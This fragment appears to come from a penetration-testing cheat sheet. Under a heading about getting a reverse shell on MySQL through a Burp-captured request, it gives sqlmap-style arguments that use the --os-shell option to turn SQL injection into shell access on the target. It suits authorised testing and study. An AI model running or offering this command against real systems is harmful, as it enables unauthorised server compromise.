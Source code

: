 ## with burp request Get A Reverse Shell (MySQL)
```bash
-r post_request.txt --dbms "mysql" --os-shell
```
